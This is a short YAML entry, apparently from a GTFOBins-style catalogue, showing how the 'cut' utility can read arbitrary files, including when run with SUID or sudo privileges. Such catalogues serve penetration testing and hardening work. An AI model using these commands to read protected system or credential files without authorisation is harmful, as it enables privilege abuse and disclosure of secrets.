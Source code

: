 ```yaml
---
name: cut
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        cut -d "" -f1 "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./cut -d "" -f1 "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo cut -d "" -f1 "$LFILE"
---
```

